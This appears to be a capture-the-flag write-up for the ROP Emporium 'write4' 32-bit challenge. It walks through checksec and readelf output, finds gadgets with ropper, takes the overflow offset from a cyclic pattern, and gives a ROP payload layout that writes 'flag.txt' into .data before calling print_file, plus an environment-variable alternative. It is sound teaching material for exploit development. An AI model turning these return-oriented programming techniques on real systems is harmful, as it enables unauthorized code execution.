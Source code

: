 # write4

This time around, we have a binary that has a function imported from a shared libraries that we can use to print the flag. But this time we don't have any string we can. Well, technically if we call `system` we can still get a shell that can likely read the flag since `system` by default calls `/bin/sh`. What we need to do this time around is to find a good place and a gadget to insert our one string to use with system.

## First moves

We start by inspecting the binary.

`file`

```bash
└─$ file write432
write432: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7142f5deace762a46e5cc43b6ca7e8818c9abe69, not stripped
```

`checksec`

```bash
└─$ checksec --file=write432
[*] '/home/kali/my_challenges/pwn/ropemporium/03-write4/32bit/write432'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Business as usual here.
We need to check the ELF sections to see what is writable and how much data could be written there. We can use the `readelf` for this.

```bash
└─$ readelf -S write432
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.bu[...] NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008b 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048324 000324 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001c2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485b4 0005b4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485c8 0005c8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485dc 0005dc 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048620 000620 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000211 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169d 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), p (processor specific)
```

This one below is interesting

```bash
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
```

Because it is writable and it has 8 bytes of space which is perfect for the text `flag.txt`.

## Lay of the land

We know where we can insert some text into the binary. We still need to find a gadget to take that value and put it on that address (`0804a018`) and we need to find the address to the imported print function to move the program execution there.

From GDB:

```bash
0x080483d0  print_file@plt
```

From ropper:

```bash
└─$ ropper --file write432 --search "mov"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: write432
0x080484e7: mov al, byte ptr [0xc9010804]; ret;
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret;
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret;
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret;
0x08048543: mov dword ptr [edi], ebp; ret;
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx;
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax;
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret;
0x08048381: mov ebx, 0x81000000; ret;
0x08048423: mov ebx, dword ptr [esp]; ret;
0x0804847a: mov esp, 0x27; add bl, dh; ret;
```

This entry is interesting to us `0x08048543: mov dword ptr [edi], ebp; ret;`
It moves 4 bytes from `ebp` to the address location that is stored in `edi`.

In order to use this, we will need to pop the address of the data section to `edi` and pop the "flag.txt" string to the `ebp` register. So let's look for more gadgets.

```bash
└─$ ropper --file write432 --search "pop"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: write432
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485ab: pop ebp; ret;
0x080485a8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret;
0x080485aa: pop edi; pop ebp; ret;
0x080485a9: pop esi; pop edi; pop ebp; ret;
0x08048527: popal; cld; ret;
```

`0x080485aa: pop edi; pop ebp; ret;` is exactly what we need. We will have to line up the data like this `pop_gadget -> data_address -> "flag.txt" -> mov_gadget`. It will then pop these in order and place them in the right registers. The move gadget at the end will write the text in the memory address in the data section.

Let's recap what we found so far:

```bash
0x080483d0  print_file@plt

0x08048543: mov dword ptr [edi], ebp; ret;

0x080485aa: pop edi; pop ebp; ret;

0804a018: .data

```

We're pretty much ready, we just need the offset to the return address from the start of the buffer. We can use a cyclic pattern for this.

```bash
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

## Attack plan

1. Overflow the buffer
2. Have "flag.txt" stored in .data using gadgets
3. return to system with pointer to flag text.

## Exploit

We will skip the manual payload this time, it's getting too much.

The string we're trying to write is 8 bytes long so we will need to write it to data_address and data_address+4. We need to move 4 bytes ahead to not overwrite the 4 bytes written already.

Payload layout will look like:

```bash
padding
+ pop_gadget_address \
+ data_address \
+ "flag" \
+ mov_gadget_address \
+ pop_gadget_address \
+ data_address + 0x4 \
+ ".txt"
+ mov_gadget_address \
+ print_file_address \
+ Junk for ebp or exit_address to not crash \
+ data_address (at this point it is a pointer to "flag.txt")

```

### Pwntools

Check out `exploit.py` for the involved method and `exploit_rop.py` for an auto exploit.

## Alternative solution

If ASLR is off, we can also inject the string we need as an environment variable.

Enironment variables are injected into the process stack and they usually reside at the bottom part of the stack (high addresses).

![alt text](img/image.png)

You can use this [gist](https://gist.github.com/Sam97ish/cb84fa17a43ce80dcd4ca7b3dc5989d4) to find the address of an environment variable for a given binary or use GDB with command like `x/200s $esp` to show the bottom parts of the stack (you might need to increase the number depending on how much did the stack grow at that point).

The address depends on the binary name probably because the name is also stored somewhere in that region as well.

If ASLR is on, then you can know the offset but not the middle part of the address as that will be random.
You will need to find the base of the binary by leaking it first in that case. Check out `exploit_env.py`.
